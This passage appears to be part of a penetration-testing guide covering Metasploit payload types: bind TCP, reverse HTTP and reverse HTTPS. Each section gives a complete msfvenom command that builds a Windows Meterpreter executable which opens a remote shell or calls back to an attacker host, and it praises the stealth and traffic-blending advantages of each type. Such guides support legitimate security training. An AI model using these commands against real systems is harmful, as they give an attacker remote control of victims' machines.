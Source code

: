 #### Configuration
- **RHOST**: Target's IP address
- **RPORT**: Target's listening port
- **Payload**: Platform-specific payload type

#### Example
```bash
msfvenom -p windows/meterpreter/bind_tcp RHOST=192.168.1.50 RPORT=4444 -f exe -o payload.exe
```

### 3. Reverse HTTP Payloads

#### Description
Reverse HTTP payloads use HTTP protocol for communication.

#### Advantages
- **Protocol Blending**: Blends with normal web traffic
- **Proxy Support**: Works through HTTP proxies
- **Port 80/443**: Uses common web ports
- **Stealth**: More stealthy than raw TCP

#### Configuration
- **LHOST**: Attacker's IP address
- **LPORT**: Attacker's HTTP port
- **Payload**: Platform-specific payload type

#### Example
```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.1.100 LPORT=8080 -f exe -o payload.exe
```

### 4. Reverse HTTPS Payloads

#### Description
Reverse HTTPS payloads use HTTPS protocol for encrypted communication.

#### Advantages
- **Encryption**: Encrypted communication
- **Protocol Blending**: Blends with normal HTTPS traffic
- **Proxy Support**: Works through HTTPS proxies
- **Stealth**: Very stealthy communication

#### Configuration
- **LHOST**: Attacker's IP address
- **LPORT**: Attacker's HTTPS port
- **Payload**: Platform-specific payload type

#### Example
```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=8443 -f exe -o payload.exe
```
